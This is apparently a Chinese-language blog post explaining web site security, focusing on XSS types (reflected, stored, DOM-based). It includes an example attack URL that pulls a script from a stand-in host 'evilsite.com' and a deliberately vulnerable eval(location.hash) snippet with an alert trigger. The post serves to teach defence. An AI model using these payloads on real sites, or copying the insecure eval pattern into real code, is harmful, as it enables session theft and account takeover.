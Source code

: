 ```yaml
---
layout:     post
title:     Web站点安全防范总结
category:  Javascript
description: 这里介绍了常见的Web站点攻击手段和防范方法，包括XSS, CSRF, SQL注入等。
keywords:  安全 XSS CSRF SQL注入
---
```

互联网很危险！我们经常听到网站因为拒绝服务攻击或主页显示被修改的（通常是有害的）内容而无法使用。在一些出名的案例中，上百万的密码、邮件地址和信用卡信息被泄露给了公众，导致网站用户面临个人尴尬和财务威胁。

站点安全的目的就是为了防范这些（或者说所有）形式的攻击。更正式点说，站点安全就是为保护站点不受未授权的访问、使用、修改和破坏而采取的行为或实践。

有效的站点安全需要在对整个站点进行设计：包括Web应用编写、Web服务器的配置、密码创建和更新的策略以及客户端代码编写等过程。尽管这听起来很凶险，好消息是如果你使用的是服务器端的Web服务框架，那么多数情况下它默认已经启用了健壮而深思熟慮的措施来防范一些较常见的攻击。其它的攻击手段可以通过站点的Web服务器配置来减轻威胁，例如启用HTTPS. 最后，可以用一些公开可用的漏洞扫描工具来协助发现你是否犯了一些明显的错误。
# XSS
XSS全称是Cross Site Scripting，即跨站脚本。用来描述一类允许攻击者通过网站将客户端脚本代码注入到其他用户的浏览器中的攻击手段。由于注入到浏览器的代码来自站点，其是可信赖的，因此可以做类似将该用户用于站点认证的cookie发送给攻击者的事情。一旦攻击者拿到了这个cookie，他们就可以登陆到站点，就好像他们就是那个用户，可以做任何那个用户能做的事情。根据站点的不同，这些可能包括访问他们的信用卡信息、查看联系人、更改密码等。

Web程序代码中把用户提交的参数未做过滤就直接输出到页面，参数中的特殊字符打破了HTML页面的原有逻辑，黑客可以利用该漏洞执行任意HTML/JS代码。

## 分类及原理
本质上，分为反射型XSS(非持久型)和存储型XSS(持久型)两种，而DOM XSS是反射型XSS的一种。
### 反射型XSS(非持久型)
反射型 XSS 攻击发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候 -- 当新页面载入的时候原始用户数据中的任何脚本都会被执行！

举个例子，假如有个站点搜索函数，搜索项被当作URL参数进行编码，这些搜索项将随搜索结果一同显示。攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数。
例如：
```http
 http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>
```
然后把链接发送给另一个用户。如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，这促使攻击者获取了所有需要以目标用户进入站点的信息 -- 可能会购买物品或分享联系人信息。

### 存储型XSS(持久型)
恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行。

举个例子，接收包含未经修改的HTML格式评论的论坛可能会存储来自攻击者的恶意脚本。这个脚本会在评论显示的时候执行，然后向攻击者发送访问该用户账户所需的信息。这种攻击类型及其常见而且有效，因为攻击者不需要与受害者有任何直接的接触。

尽管 POST 和 GET 方式获取到的数据是XSS攻击最常见的攻击来源，任何来自浏览器的数据都可能包含漏洞（包括浏览器渲染过的Cookie数据以及用户上传和显示的文件等)。

### DOM XSS
DOM-based XSS是一种基于文档对象模型（Document Object Model，DOM)的XSS漏洞。简单理解，DOM XSS就是出现在JavaScript代码中的漏洞。与普通XSS不同的是，DOM XSS是在浏览器的解析中改变页面DOM树，且恶意代码并不在返回页面源码中回显，这使我们无法通过特征匹配来检测DOM XSS，给自动化漏洞检测带来了挑战。

例如：前端经常读取URL中的参数来显示到页面中，那么攻击者完全可以伪造一个带有XSS攻击代码的URL到参数当中，直接导致页面执行XSS脚本，触发XSS攻击。

http://www.abc.com/test.html 代码如下：
```html
<script>
eval(location.hash.substr(1));
</script>
```
触发方式为：http://www.abc.com/test.html#alert(1)
